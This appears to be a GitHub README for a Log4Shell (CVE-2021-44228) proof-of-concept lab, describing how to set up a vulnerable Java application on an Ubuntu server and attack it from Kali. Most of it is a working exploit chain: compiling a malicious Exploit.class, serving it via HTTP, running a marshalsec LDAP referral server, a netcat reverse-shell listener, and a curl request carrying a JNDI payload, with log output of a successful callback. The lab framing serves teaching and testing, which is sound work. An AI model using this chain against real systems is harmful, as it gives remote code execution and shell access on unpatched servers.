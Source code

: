 # Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up and using an ubuntu server hosting a website and a backend admin page that runs a vulnerable java application rather than a simple docker app. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:

Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- maven
- Kali Linux
- Ubuntu Server

# Kali Linux
clone the git repo to your Kali VM
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```bash
cd attacker
cd exploit && sudo nano Exploit.java
```

Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```bash
sudo apt install openjdk-11-jdk -y
```
```bash
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```bash
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`

**1.** Install Maven if required
```bash
sudo apt install maven -y
```

```bash
sudo mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```bash
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback

In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```bash
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```bash
sudo apt update && sudo apt upgrade -y
```
```bash
sudo apt install openjdk-11-jdk -y
```
```bash
sudo apt install apache2
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```bash
cd Target/
```
Copy the contents of apachecopy to /var/www/html, then modify the post.js to match the IP of your ubuntu server.
```bash
cd /var/www/html && sudo nano post.js
```

You will need to download the log4j dependanies for the vulnerable java application to run
```bash
sudo wget https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
sudo tar -xzf apache-log4j-2.14.1-bin.tar.gz
sudo mv apache-log4j-2.14.1-bin log4j
```

To run the Application just run 
```bash
sudo chmod +x run_vulnerable_app.sh
```
```bash
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```bash
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access

Another Approach is to load up the Ubuntu server in a web-browser where a demo website is live, from here we can navigate to /admin/ to find the vulnerable login page, simply inputting our JNDI lookup string and a fake password will provide the same reverse shell access using the HTTP and LDAP Server.

You can also search for the admin page using Gobuster if you want a more realistic demonstation.

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   

## Contributors
[@AdamJN](https://github.com/AdamJNew)

[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo
